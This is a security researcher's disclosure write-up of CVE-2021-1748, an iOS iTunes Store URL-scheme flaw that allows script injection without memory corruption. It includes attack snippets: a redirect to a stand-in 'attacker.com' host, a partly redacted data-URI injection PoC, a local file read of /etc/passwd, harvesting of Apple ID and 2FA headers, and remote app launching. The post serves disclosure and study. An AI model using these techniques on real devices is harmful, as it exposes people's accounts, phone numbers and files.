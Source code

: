 ```yaml
---
layout: post
title:  "Mistuned Part 1: Client-side XSS to Calculator and More"
date:   2021-08-04
image:  img/2021-08-04-mistuned-part-i/mistune.png
desc:   Remotely pwn iOS and pop up arbitrary app with 0 memory corruption.
---
```


Ever since Pointer Authentication Code (PAC) has been introduced, iPhone remained standing for more than two years on various pwn contests until TianfuCup 2020 (Project Zero has reported a remote zero click exploit in 2019). Ant Security and Qihoo 360 used two different bug chains respectively to successfully gained remote code execution with userspace sandbox escape on iPhone 11 with iOS 14.2.

In a series of post, I am going to disclouse the bugs I used for full-chain remote code execution. Born with Generation Z, these bugs were introduced by iOS 3 and iOS 6 respectively, however they were still able to fully bypass various protections on a state-of-the-art mobile phone at the time.

## Client-side XSS from iOS 3

The exploit starts from a malicious page in MobileSafari. Instead of attacking MobileSafari itself, there is a well-known attack surface named URL Schemes or Universal Links. It's the resource locator for Apps. Web pages can open local apps with a formatted URL. In MobileSafari, some built-in Apple apps are trusted unconditionally, including App Store and iTunes. There is no user confirmation before inter-app navigation.

Back to [Pwn2Own 2014](https://www.securityweek.com/mobile-pwn2own-2014-iphone-5s-galaxy-s5-nexus-5-fire-phone-hacked), Jung Hoon Lee used `itmss://` to open arbitrary untrusted website in iTunes, leading to sandbox escape. An additional memory corruption bug was used to gain code execution. It has been assigned to [CVE-2014-8840](https://support.apple.com/en-us/HT204245).

```js
<script>
location = 'itmss://attacker.com';
</script>
```

iOS then introduced a trusted domain list in this URL scheme. Before loading the page, it fetches a configuration from [this URL](https://sandbox.itunes.apple.com/WebObjects/MZInit.woa/wa/initiateSession). The configuration is an XML serialized property list. The hostname of the page must match the following suffix defined in `trustedDomains` field.

```xml
<key>trustedDomains</key>
<array>
  <string>.apple.com.edgesuite.net</string>
  <string>.asia.apple.com</string>
  <string>.corp.apple.com</string>
  <string>.euro.apple.com</string>
  <string>.itunes.apple.com</string>
  <string>.itunes.com</string>
  <string>.icloud.com</string>
```

If the domain matches, iTunes Store will render the page in its `SUWebView`, which is a subclass of the deprecated `UIWebView` in HTTPS. We can't Man-in-the-middle to hijack the HTML, but any XSS in the trusted domain can inject Javascript to this app.

However, after analyzing the following methods, I found another bypass introduced by iOS 3 to achieve client-side XSS.

* `-[SUStoreController handleApplicationURL:]`
* `-[NSURL storeURLType]`
* `-[SUStoreController _handleAccountURL:]`
* `-[SKUIURL initWithURL:]`

**This bug could affect a wide range of iOS versions. Part of the PoC is redacted to help protect users that stay below 14.3 due to hardware limitations or at their will.**

Given certain combination of parameters, this `itms` URL will force the app to ignore the hostname but load a secondary URL provided by the query string instead: `itms://<redacted>&url=http://www.apple.com`. While the hostname still has to match the trust list, it allows plain text http communications and some domains in the list like `support.mac.com` don't have HSTS, making them vulnerable to interception. Furthermore, according to the disassembly, it trusts arbitrary data URI in addition to the allowed host names: `itms://<redacted>&url=data:text/plain,hello`. This is basically a reflected XSS since it can carry arbitrary inline HTML.

The app always appends a question mark after the URL, trying to append extra querstring. This breaks base64 encoding, but plain text works just fine. Here's an example of the inter app script inection.

```js
String.prototype.toDataURI = function() {
  return 'data:text/html;,' + encodeURIComponent(this).replace(/[!'()*]/g, escape);
}

function payload() {
  iTunes.alert('gotcha'); // do ya thing
}

const data = `<script type="application/javascript">(${payload})()<\/script>`.toDataURI()
const url = new URL('itms://<redacted>');
// part of the PoC is redacted to prevent abuse
url.searchParams.set('url', data);
location = url
```

The earliest firmware that has the vulnerable code is `Kirkwood7A341`, which was released back to 2009.

`SUWebView` is a subclass of `UIWebView`, so it doesn't have isolated renderer processes. A common misunderstanding for WebView is that only `WKWebView` has JIT optimization. Actually it's controlled by the `dynamic-codesigning` entitlement. iTunes Store has this entitlement to speed up `JSContext` execution, but it happens to create an environment that any working exploit (nomatter the type, JIT or DOM) in MobileSafari works here as well, without concerning about the WebContent sandbox.

Due to the system enforcement, to use `mmap(MAP_JIT)`, the process must be sandboxed. So iTunes Store still has `app-container` after all, but it's got much more access compared to WebContent and even third-party apps. It has been granted even more entitlements for privacy related access like camera and AppStore credentials. It's probably the highest privilege that shellcode could get after `jsc` interpreter had been removed from iOS.

But everything comes with a price. In this context, the exploit has only one chance to get remote code execution, or the app dies. There is no such thing like auto recover for browser tabs. It has a high demand for reliability of the exploit. Besides, this bug redirects from MobileSafari to iTunes Store, leaving significantly observable animation in the UI, so it's not ideal for real attackers.

On iOS 14, iTunes Store is not the only vector. There is a StoreKitUIService app that suffers the same flaw. The only difference is the URL Scheme is `itms-ui`, rather than `itms`. StoreKitUIService is also responsible for delievering OTA enterprise apps. It has almost no UI impact compared to the former. Unfortunately `itms-ui` is not trusted. MobileSafari warns before opening the URL. However, if the payload is delivered through iMessage, AirDrop or some 3rd-party instant messengers, it doesn't matter because such scenarios don't require extra confirmation.

This bug has been assigned to CVE-2021-1748.

## Memory Corruption-free Exploitation

Before getting into the code execution, this client-side XSS is interesting because it allows reading sensitive information and arbitrary app execution.

The `UIWebView` uses obsolete `WebScripting` API to export extra methods to Javascript. `WebScripting` translates Javascript invocations to Objective-C, with known data types automatically converted. There is an `iTunes` namespace in `globalThis` context, which is bunded to an `SUScriptInterface` instance. It has interfaces as follows:

**Fingerprinting**. `iTunes.systemVersion()` and `userAgent` can tell the OS version and the model of SoC, which are useful for adjusting the exploit.

**Apple ID**. `iTunes.primaryAccount?.identifier` is the Apple ID for App Store and iTunes.`primaryiCloudAccount?.identifier` is the iCloud account. Besides, any outgoing http requests, no matter what the domain is, will have extra headers for Apple ID authentication. Even two-factor authentication (2FA) related tokens like `X-Apple-I-MD` and `X-Apple-I-MD-M` are included.

```js
{
  'icloud-dsid': '***',
  'x-apple-store-front': '143465-19,29',
  'x-dsid': '***',
  'x-apple-client-versions': 'iBooks/7.2; iTunesU/3.7.4; GameCenter/??; Podcasts/3.9',
  'x-mme-client-info': '<iPhone12,3> <iPhone OS;14.2;18B92> <com.apple.AppleAccount/1.0 (com.apple.MobileStore/1)>',
  'x-apple-i-timezone': 'GMT+8',
  'x-apple-i-client-time': '2020-11-06T14:46:07Z',
  'x-apple-i-md-rinfo': '17106176',
  'x-apple-adsid': '***',
  'x-apple-connection-type': 'WiFi',
  'x-apple-partner': 'origin.0',
  'x-apple-i-locale': 'zh_CN',
  'x-apple-i-md-m': '***',
  'x-apple-i-md': '***'
}
```

**Disk space**. `iTunes.diskSpaceAvailable()` tells the available disk space of the phone.

**Telephony**. `iTunes.telephony` is a namespace that gives the phone number, operator and provider of the victim. Imagine this, there is no need to ask the number for a person that attracts you in a party. Just AirDrop the bait and wait for response.

**Reading textual files (within the container)**. `SUScriptInterface` has a custom AJAX implementation that doesn't enforce same-origin policy. The only limit is that the hostname must match a certain trusted list (different from the former). The implementation is based on `NSURL` and it doesn't check for the scheme, so I can use file URLs to read a local path, where the hostname will be discarded: `file://r.mzstatic.com/etc/passwd`. Unfortunately the result is `NSString` backed so it doesn't support binary data. After all, this app has no direct access to the full disk because of the sandbox.

**Arbitrary app enumeration and execution**. `iTunes.installedSoftwareApplications` is an array of all installed apps. It even supports launching app by identifier. Here is how I managed to launch calculator from web without touching any modern memory safety mitigations:

```js
const app = iTunes.softwareApplicationWithBundleID_('com.apple.calculator')
app.launchWithURL_options_suspended_('calc://1337', {}, false);
```

![Calculator Demo](img/2021-08-04-mistuned-part-i/calc.gif)

## Conclusion

CVE-2021-1748 is just anther fresh example of my previous BlackHat Talk [Cross-site Escape](https://i.blackhat.com/eu-20/Thursday/eu-20-Zhou-Cross-Site-Escape-Pwning-MacOS-Safari-Sandbox-The-Unusual-Way.pdf). A client side XSS disarms the sandbox and exposes a bigger attack surface by exposing extra methods to JavaScript. It doesn't even need memory corruption at this point to launch Calculator app.

In the upcoming posts, I'll introduce a secondary UAF bug (CVE-2021-1864) to gain various memory primitives, build arbitrary invocation, and finally bypass both PAC and APRR to load arbitrary shellcode in the context of iTunes Store app.
